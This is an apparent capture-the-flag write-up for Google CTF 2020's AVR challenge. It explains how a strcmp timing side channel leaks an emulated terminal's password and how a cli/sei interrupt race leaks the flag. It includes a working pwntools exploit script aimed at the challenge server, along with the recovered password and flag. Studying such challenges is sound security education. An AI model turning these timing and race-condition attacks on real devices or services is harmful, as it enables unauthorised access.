




# AVR

> We found this old terminal with access to some top secret data, but it's secured by passwords. Can you break in anyway?

This challenge is about abusing certain conditions in the AVR hardware timer to sniff the terminal login password through a timing
attack and further to abuse a race condition that lets us query the flag.

## Introduction

Upon downloading the challenge from the server, you obtain a mysterious file called
`8bfc40e205d0793678e76f2610fc0a9f58159fcdcbbf3424b0538b0b019bfd50c0ddffcaeca391379f260390c90b1e4d5633acb2c334bd5f5663c4072354bb13`.

With the help of the `file` command, it can be identified as a zip archive:

```sh
❯ file 8bfc40e205d0793678e76f2610fc0a9f58159fcdcbbf3424b0538b0b019bfd50c0ddffcaeca391379f260390c90b1e4d5633acb2c334bd5f5663c4072354bb13
8bfc40e205d0793678e76f2610fc0a9f58159fcdcbbf3424b0538b0b019bfd50c0ddffcaeca391379f260390c90b1e4d5633acb2c334bd5f5663c4072354bb13: Zip archive data, at least v2.0 to extract

❯ unzip 8bfc40e205d0793678e76f2610fc0a9f58159fcdcbbf3424b0538b0b019bfd50c0ddffcaeca391379f260390c90b1e4d5633acb2c334bd5f5663c4072354bb13
Archive:  8bfc40e205d0793678e76f2610fc0a9f58159fcdcbbf3424b0538b0b019bfd50c0ddffcaeca391379f260390c90b1e4d5633acb2c334bd5f5663c4072354bb13
 extracting: Makefile
 extracting: code.c
 extracting: code.hex
 extracting: simavr_diff
 extracting: simduino.elf
```

This reveals a small project setup, so let's look at the individual files:
| Filename | Description |
| :------: | :---- |
| [`code.c`](./code.c) | Obviously the source code of the application |
| [`code.hex`](./code.hex) | The "compiled" binary that will be flashed onto the Arduino, or, in our case, emulated in simduino (see below) |
| [`Makefile`](./Makefile) | A build setup for this AVR project | 
| [`simavr_diff`](./simavr_diff) | As the Makefile suggests, it's a path to the [simavr](https://github.com/buserror/simavr) project | 
| [`simduino.elf`](./simduino.elf) | Seemingly the [simavr](https://github.com/buserror/simavr) binary for Arduino hardware emulation | 

So apparently we have some AVR binary that is being run inside an emulator.

The Google CTF site also gives us the host and port of a challenge server where we seemingly find the same code to exploit.
`avr.2020.ctfcompetition.com 1337`

## Analyzing the Code

After some googling, I learned that `hex` files, which contain lines that look like a nicely lined up hexdump, belong to the
[Intel HEX](https://en.wikipedia.org/wiki/Intel_HEX) file format.

We can use the following command to disassemble the hex lines:

```sh
avr-objdump -j .sec1 -d -m avr5 code.hex > code.dis
```

So as I started to read the C code, I'd been following along the disassembly to get a picture of the inner workings of some AVR APIs.
Keep in mind that we're doing a hardware CTF, without any prior knowledge to the challenge, I wasn't expecting something that is obvious on
the eye without any insight in how the AVR architecture and the provided abstractions from the `avr` library work.

For the same reason, I also followed along the [`atmega328p` datasheet](https://ww1.microchip.com/downloads/en/DeviceDoc/Atmel-7810-Automotive-Microcontrollers-ATmega328P_Datasheet.pdf) since we know from the `avr-gcc` invocation in the Makefile that we're dealing
with exactly this MCU.

Equipped with all the knowledge from the holy datasheet and the disassembly, we can tackle the contents of `code.c`.

```c
#undef F_CPU
#define F_CPU 1000000UL
```

I've noticed this as I've been flying over the `simavr_diff` patch already, apparently Google purposefully underclocks the MCU from its original
frequency of `16000000` to `1000000`, which means the processor will run **16 (!) times slower than usual**. My guess here was that the `F_CPU` macro
is utilized by the AVR APIs, hence the re-declaration before the includes.

```c
#ifndef PASS1
#define PASS1 "PASSWORD_REDACTED_XYZ"
#endif

#ifndef PASS2
#define PASS2 "TOPSECRET_PASSWORD_ALSO_REDACTED_TOPSECRET"
#endif

#ifndef FLAG
#define FLAG "CTF{_REAL_FLAG_IS_ON_THE_SERVER_}"
#endif

const char* correctpass = PASS1;
const char* top_secret_password = PASS2;
const char* top_secret_data = 
    "INTELLIGENCE REPORT:\n"
    "FLAG CAPTURED FROM ENEMY.\n"
    "FLAG IS " FLAG ".";

char buf[512];
char secret[256] = 
    "Operation SIERRA TANGO ROMEO:\n"
    "Radio frequency: 13.37MHz\n"
    "Received message: ATTACK AT DAWN\n";
char timer_status[16] = "off";
```

Breakdown of what we have here:

* Three macros, seemingly two for passwords and the third one is our desired flag

* `PASS*` macros are bound to variables `correctpass` and `top_secret_password`

* `top_secret_data` is a string buffer that contains the flag

* An empty buffer of 512 bytes is allocated in `buf`

* Another string buffer allocated in `secret`, which contains seemingly uninteresting data

* `timer_status` is another string buffer holding a value of `"off"` which we can't interpret yet

```c
volatile char uart_ready;
ISR(USART_RX_vect) {
    uart_ready = 1;
}
```

My good friend Google has brought me to the conclusion that `ISR(USART_RX_vect)` defines a new interrupt
handler for us that sets `uart_ready` to `1` whenever we finished receiving data over the integrated
[UART](https://de.wikipedia.org/wiki/Universal_Asynchronous_Receiver_Transmitter) bus.

```c
void uart_init(void) {
    UBRR0H = UBRRH_VALUE;
    UBRR0L = UBRRL_VALUE;

    UCSR0C = (1<<UCSZ01) | (1<<UCSZ00);
    UCSR0B = (1<<RXEN0) | (1<<TXEN0) | (1<<RXCIE0);
}
```

This piece of code initializes, as the function name suggests, the
[UART](https://de.wikipedia.org/wiki/Universal_Asynchronous_Receiver_Transmitter) bus on hardware with a baud rate of `125000`.

It initializes both TX and RX, but RX with full interrupts. Further, it configures transfers for 8 data bits and even parity,
although that's irrelevant for our case as we're not going to interface with physical hardware directly.

***HINT**: TX and RX are like queues. TX saves the data which you send and RX the data which you receive.*

```c
static int uart_getchar(FILE* stream) {
    while (1) {
        cli();
        if (!uart_ready) {
            sleep_enable();
            sei();
            sleep_cpu();
            sleep_disable();
        }
        cli();
        if (uart_ready) {
            uart_ready = 0;
            unsigned int c = UDR0;
            sei();
            return c;
        }
        sei();
    }
}

static int uart_putchar(char c, FILE* stream) {
    loop_until_bit_is_set(UCSR0A, UDRE0);
    UDR0 = c;
    return 0;
}
static FILE uart = FDEV_SETUP_STREAM(uart_putchar, uart_getchar, _FDEV_SETUP_RW);
```

Here, we have implementations of two functions inspired by `getchar` and `putchar`, except that they're
meant to work over [UART](https://de.wikipedia.org/wiki/Universal_Asynchronous_Receiver_Transmitter) [MMIO](https://de.wikipedia.org/wiki/Memory_Mapped_I/O) access.

And then below, a virtual file device called `uart` is being defined with the previously implemented functions. Later
this is used to redirect all I/O to the UART driver interface that was just implemented.

```c
void quit() {
    printf("Quitting...\n");
    _delay_ms(100);
    cli();
    sleep_enable();
    sleep_cpu();
    while (1);
}
```

A `quit` function which halts the CPU and essentially causes a shutdown of the hardware over MMIO.

```c
volatile uint32_t overflow_count;
uint32_t get_time() {
    uint32_t t;
    cli();
    t = (overflow_count << 16) + TCNT1;
    sei();
    return t;
}

void timer_on_off(char enable) {
    overflow_count = 0;
    strcpy(timer_status, enable ? "on" : "off");
    if (enable) {
        TCCR1B = (1<<CS10);
        sei();
    }
    else {
        TCCR1B = 0;
    }
}

ISR(TIMER1_OVF_vect) {
    if (!logged_in) {
        overflow_count++;
        // Allow ten seconds.
        if (overflow_count >= ((10*F_CPU)>>16)) {
            printf("Timed out logging in.\n");
            quit();
        }
    }
    else {
        // If logged in, timer is used to securely copy top secret data.
        secret[top_secret_index] = top_secret_data[top_secret_index];
        timer_on_off(top_secret_data[top_secret_index]);
        top_secret_index++;
    }
}
```

The next bit of code is responsible for configuring a hardware timer of the MCU, namely Counter/Timer 1.

To understand all the code and its purpose, we need to take a look at how AVR timers work. Luckily, there's a really
good article at https://exploreembedded.com/wiki/AVR_Timer_programming.

We learn that Counter 1 is a 16-bit timer that generates an overflow upon hitting `65536` and starts again from `0`.
This explains the `overflow_count` variable! It essentially tracks how many overflow the timer has had so far and with
this information, we can derive for how long the timer's been running already.

Let's do some quick mafs with the CPU frequency and the prescale from the `timer_on_off` code:



Now we know that every overflow in the timer means that ~65.5 milliseconds have ellapsed since the start of it!

It becomes obvious now that `get_time` also uses `overflow_count` to derive the time that has ellapsed so far. Next,
there is `timer_on_off` which uses the MMIO to turn the timer on off (who would've guessed it), based on the value of `enable`
and also `strcpy`s the current status into the `timer_status` variable we discovered earlier.

And finally, `ISR(TIMER1_OVF_vect)` declares another interrupt handler for timer overflow events. But what it actually does is pretty
interesting. If the variable `logged_in` is not set, it will increment `overflow_count` by one and compare its value against `152`,
which evaluates to ~9.6 seconds rounded up to 10 seconds (as the comment also suggests, but we don't trust anything we haven't verified
ourselves here, of course). If `logged_in` is set on the other hand though, one byte from string buffer with our flag will be copied into
useless string buffer with the funky message. The timer will be either turned on or off, depending on the char that has been copied and
`top_secret_index` is incremented by one.

We'll get back to this later.

```c
void read_data(char* buf) {
    scanf("%200s", buf);
}

void print_timer_status() {
    printf("Timer: %s.\n", timer_status);
}
```

These two functions are intended as helpers. `read_data` will read at most 200 characters into the `buf` argument. `print_timer_status`
just prints out the contents of the `timer_status` variable, which is either `"on"` or `"off"`, depending on how the timer is configured.

For the `main` function that is actually pretty big, we break it down into smaller chunks.

```c
    uart_init();
    stdout = &uart;
    stdin = &uart;
```

First, we initialize the UART bus on hardware and overwrite `stdout` and `stdin` to our previously crafted UART device so that all the I/O
functions from `stdio.h` header will drive the UART.

```c
    TCCR1A = 0;
    TIMSK1 = (1<<TOIE1);
```

As explained by the datasheet, these [MMIO](https://de.wikipedia.org/wiki/Memory_Mapped_I/O) writes are used to initialize the timer. Setting the `TOIE1` bit in the `TIMSK1` register will enable
Counter 1 overflow interrupts that will be captured by the previously set up interrupt handler.

```c
    printf("Initialized.\n");
    printf("Welcome to secret military database. Press ENTER to continue.\n");
    char enter = uart_getchar(0);
    if (enter != '\n') {
        quit();
    }
```

We're greeted and prompted to enter a `'\n'` character through ENTER, otherwise the program will quit.

```c
    timer_on_off(1);
```

The timer is being brought up!

```c
    while (1) {
        print_timer_status();
        printf("Uptime: %ldus\n", get_time());
        printf("Login: ");
        read_data(buf);
        printf("Password: ");
        read_data(buf+256);
        if (strcmp(buf, "agent") == 0 && strcmp(buf+256, correctpass) == 0) {
            printf("Access granted.\n");
            break;
        }
        printf("Wrong user/password.\n");
    }
```

The first rock in our way. We get the status of the timer and the uptime thrown into our way
and are prompted for login data then. The `buf` of 512 bytes is being used to store our input,
whereas the first 256 bytes are meant for our username and the last 256 bytes for our password.
If we remember back, `read_data` uses a `"%200s"` format string, so sadly no memory corruption
possible here.

Then our data is being validated using `strcmp` calls. For the username, we can se a hardcoded value
of `"agent"`, so that's an easy one. For the password, we need to look out for `correctpass` which is
defined to...well...`"PASSWORD_REDACTED_XYZ"`. So we have, in fact, no idea what password the program
expects here. Anyway, if we pass this thing, we'll be granted access and the program breaks out of the
infinite loop, whereas it just starts from the beginning of the block if we fail to pass the check.

We'll get back to this later as well, I promise!

```c
    cli();
    timer_on_off(0);
    sei();

    logged_in = 1;
```

So now that we are logged in with correct credentials, the `logged_in` variable will be set accordingly and
the timer will be disabled. But what on earth are the `cli` and `sei` function calls for?

Let's look at the documentation of the `I` bit in the `SREG` register:



What we learn from here is that in AVR, a status bit `I` exists, which globally controls the interrupt delivery.
With the `cli()` function or the `CLI` instruction in assembly, we can prevent interrupt delivery whereas `sei()` or
the `SEI` instruction turns on active interrupt delivery.

```c
    while (1) {
        print_timer_status();
        printf("Menu:\n");
        printf("1. Store secret data.\n");
        printf("2. Read secret data.\n");
        printf("3. Copy top secret data.\n");
        printf("4. Exit.\n");
        printf("Choice: ");
        read_data(buf);
        switch (buf[0]) {
            case '1':
            {
                printf("Secret: ");
                read_data(secret);
                break;
            }
            case '2':
            {
                printf("Stored secret:\n---\n%s\n---\n", secret);
                break;
            }
            case '3':
            {
                printf("Enter top secret data access code: ");
                read_data(buf);
                char pw_bad = 0;
                for (int i = 0; top_secret_password[i]; i++) {
                    pw_bad |= top_secret_password[i]^buf[i];
                }
                if (pw_bad) {
                    printf("Access denied.\n");
                    break;
                }
                printf("Access granted.\nCopying top secret data...\n");
                timer_on_off(1);
                while (TCCR1B);
                printf("Done.\n");
                break;
            }
            case '4':
            {
                quit();
                break;
            }
            default:
            {
                printf("Invalid option.\n");
                break;
            }
        }
    }
    quit();
```

The last block of the `main` function throws us into another infinite loop. This time, we're given the
timer status and some instructions on commands that we can use by entering the respective number. With
`1`, we can override the contents of `secret` - unfortunately `read_data` on a buffer of 256 bytes, so
yet again no stack smashing possibility. `2` lets us dump the contents of `secret`, although that's
useless without the contents of `top_secet_data` being copied over to `secret` first. `3` allows for
copying "top secret data" by prompting us for a second password first. If we pass that, we'll end up
in the Counter 1 overflow interrupt handler until all the bytes have been copied. All the other command
variants just end up either prompting for other input or just a call to `quit` that halts the CPU.

Drowning in questions and problems here in the late hours of the night, let's break them down one by one
after I got some sleep. :)

## Passing the Login

Our first problem is the following line of code that restricts the use of the terminal to logged in users:

```c
if (strcmp(buf, "agent") == 0 && strcmp(buf+256, correctpass) == 0) {
```

We know the hardcoded username `"agent"` but we have no idea what the password is and we don't have the possibility
to dump the `correctpass` variable either...but there's something else that caught my attention at this point.

It's the usage of `strcmp` which is vulnerable to timing attacks! And now that we think about it, we've been given
quite a lot of indices for this previously with the CPU being underclocked to 1MHz and the excessive usage of the
`get_time` function giving us the program uptime in microseconds after every wrong password we enter.

Seems like this is the way to go!

To understand how this attack is pulled off, we need to take a look at the implementation of `strcmp` in our disassembly.

```asm
     4b8:    fb 01           movw    r30, r22
     4ba:    dc 01           movw    r26, r24

     4bc:    8d 91           ld    r24, X+
     4be:    01 90           ld    r0, Z+
     4c0:    80 19           sub    r24, r0
     4c2:    01 10           cpse    r0, r1
     4c4:    d9 f3           breq    .-10         ;  0x4bc

     4c6:    99 0b           sbc    r25, r25
     4c8:    08 95           ret
```

As we can see, the implementation is really small and consistent in timing with a loop that iterates over every character.
It is roughly equivalent to the following code:

```c
int strcmp(const char *s1, const char *s2) {
    char c1, c2;

    // Iterate over the characters in the string as long as they match.
    while ((c1 = *s1++) == (c2 = *s2++)) {
        // If the null terminator is hit, the strings are equal and the function returns 0.
        if (c1 == '\0')
            return 0;
    }

    // If the strings are not equal, return <0 or >0 based on the values of the inequal characters.
    return (int)(c1 - c2);
}
```

The issue with the implementation is that it opts out as soon as the characters don't match anymore. So comparing `Test` and `123`
will take a shorter duration than comparing `car` and `carpet`. And thanks to the uptime leak and the consistent `strcmp` implementation,
we'll be able to tell very accurately when a character is correct.

Such a bruteforce would normally take `O(printable_characters ^ password_length)`, which is impossible to accomplish in the 10 seconds the
timer gives us before terminating the program due to a timeout. However, `O(printable_characters * password_length)` is what we have here
thanks to `strcmp` timing, so this is perfectly reasonable to accomplish!

Let's write some code you can find in [`strcmpwn.py`](./strcmpwn.py).

This code worked out most of the time as it calculates the average mean of how `strcmp` duration changes
for any additional character in the password in 500 attempts. Based on these results, we can determine the
correct character as soon as the `strcmp` average duration changes. And repeating this a couple of times lets us brute-force
the entire password as `strcmpwn` will stop once we end up comparing `real_passwordXXXXXX` to `real_password`.

Ultimately, this brings us to the password `"doNOTl4unch_missi1es!"` for user `"agent"`. Nice!

> Random fun fact of the day: Rent a VPS in the same data center as the challenge server to lower the network latency. Idiot-proof strategy for brute-force and timing attacks.

Now we have access to the commands of this top secret hackerman machine.

```
Login: agent                
Password: doNOTl4unch_missi1es!
Access granted.
Timer: off.
Menu:
1. Store secret data.
2. Read secret data.
3. Copy top secret data.
4. Exit.
Choice: 
```

But here's the next issue. Normally, we would invoke command `3` and then `2` to get our flag, but `3` is gated by
yet another top secret password and...

```c
                printf("Enter top secret data access code: ");
                read_data(buf);
                char pw_bad = 0;
                for (int i = 0; top_secret_password[i]; i++) {
                    pw_bad |= top_secret_password[i]^buf[i];
                }
                if (pw_bad) {
                    printf("Access denied.\n");
                    break;
                }
```

is a string comparison algorithm that isn't vulnerable to timing attacks, such as the first `strcmp`. Reading this piece
of code up and down, there seems no attack surface that lets us recover the second password in order to get the flag.

And this is where the real hardware-related challenge starts.

## Catching up the Counter

With seemingly no clue on how to obtain the flag from our standpoint, there are still a few things that seem curious to the reader.

Although the code makes sure to turn off the timer before setting `logged_in` to `1` so that the timer would never copy data to the
`secret` buffer without the password, why would you even rely on the timer in the first place for that? Why not put this piece of
code behind the password check in the third CLI command?

This led me to the conclusion that we must *somehow still* be able to activate the timer even without knowing the password for command
`3`. And the lines of code that are being executed before officially setting us to logged in seemed like a good starting point to
research with absolutely no other ideas.

```c
cli();
timer_on_off(0);
sei();

logged_in = 1;
```

It took me a really long time to get behind the idea of this, but the trick lies in how the AVR interrupt controller works. So we know
from previous investigation that `cli()` blocks all of our interrupt handlers from setting off, whereas `sei()` re-enables them. With a
bit of further digging into how the mechanisms and these instructions work in reality, I discovered a really interesting take on the
AVR manual in chapter 6.7 `Reset and Interrupt Handling`:



Notice the last sentence in particular.

> Similarly, if one or more interrupt conditions occur while the global interrupt enable bit is cleared, the corresponding interrupt flag(s) will be set and remembered until the global interrupt enable bit is set, and will then be executed by order of priority.

So even if interrupt occur with the `I` bit being cleared in `SREG`, they will be remembered and dispatched as soon as the `I` bit is set
again. Now this is interesting information to know in combination with what the manual states at the next page.



We learn that SEI lets the following execution run first before re-enabling interrupt delivery. And this is the big price in this piece of code.

The assembly-level state of things explains the scenario a bit better.

```asm
     390:	f8 94       	cli
     392:	80 e0       	ldi	r24, 0x00	; 0
     394:	0e 94 bf 00 	call	0x17e	;  0x17e
     398:	78 94       	sei
     39a:	81 e0       	ldi	r24, 0x01	; 1
     39c:	80 93 8c 06 	sts	0x068C, r24	;  0x80068c
```

So first, interrupt delivery is being disabled through `cli`. All interrupts that happen after this (such as a timer overflows) would be stored for later.
Then, the value of `0` is being loaded into `r24` as the argument to the `timer_on_off` function at address `0x17e`, which is being called after that.
Then we have the `sei`, which re-enables the interrupt delivery - AFTER the next instruction - which loads `1` into `r24`. However, it would take the instruction
after that too, which stores the contents of `r24` to location `0x80068C`, our `logged_in` variable, that is, for the counter to to copy our data.

To conclude, `sei` would have to execute the next **2** instructions to set `logged_in` to `1`. And if a counter overflow happened to be in the interrupt queue,
it would execute the following code piece of code.

```c
        // If logged in, timer is used to securely copy top secret data.
        secret[top_secret_index] = top_secret_data[top_secret_index];
        timer_on_off(top_secret_data[top_secret_index]);
        top_secret_index++;
```

But since we know that `top_secret_data` is just another string buffer, the `timer_on_off` function will leave the counter intact until the null byte is reached.
That said, this portion would be executed all over and over again until our flag is fully copied into the `secret` buffer. From there, it's just an input of `2`
away from being printed out for us.

But still, 2 instructions instead of 1! But with all the speculation to it, it seemed like the most logical way to get the flag without the password and so I decided
to stick to it without giving this a further thought. I honestly still don't know why sei executed, in fact, two instructions here, but if you know the answer, feel
free to let me know! But anyway, let's write some more code hoping to be able to trigger the timer overflow in the timeframe between `cli()` and `timer_on_off(0)`.

## Obtaining the Flag

I wrote some code that makes use of multiprocessing to establish lots of connections to the server with some random delay appended to it, hoping to push the timer
to some point really close to overflowing, but enough for the `strcmp` to complete and to reach the `cli();` call. You could've surely also implemented this in a smarter
way considering you're given the timer value at the start of the program, during login, and also on every menu iteration. But this just worked out for me.

```py
from multiprocessing import Pool
import random
import re
import time

from pwn import *

context.log_level = "error"

USER = "agent"
PASSWORD = "doNOTl4unch_missi1es!"

SECRET = """Stored secret:
---
Operation SIERRA TANGO ROMEO:
Radio frequency: 13.37MHz
Received message: ATTACK AT DAWN

---
"""


def get_flag(secret: str) -> str:
    if match := re.search(r"CTF{.+}", secret, re.MULTILINE):
        return match.group(0)

    raise ValueError("The given secret string does not contain the flag.")


def sei_race(_):
    while True:
        # Connect to the server and confirm the greeting.
        connection = remote("avr.2020.ctfcompetition.com", 1337)
        connection.sendafter(
            "Welcome to secret military database. Press ENTER to continue.", "\n"
        )

        # Wait for a random delay, hoping to get the timer close to overflowing, and send our credentials.
        time.sleep(random.random())

        # Check if we triggered the race condition and the flag was copied.
        connection.send(f"{USER}\n{PASSWORD}\n")
        connection.sendafter("Choice: ", "2\n")
        secret = connection.recvall().decode()
        if not secret.startswith(SECRET):
            print("Flag:", get_flag(secret))
            return True

        # Close the connection.
        connection.close()

        return False


with Pool(None) as pool:
    pool.map(sei_race, range(500))
```

It took quite some time, but it was worth it.

```sh
❯ ./solve.py
Flag: CTF{1nv1sibl3_sei_r4c3_c0ndi7i0n}
```

This challenge in particular made me, a baremetal developer with lots of project in the embedded domain, a lot more conscious
about this kind of truly invisible hardware flaw and how fatal race conditions are even possible without any threading
or multiprocessing code.

## Conclusion


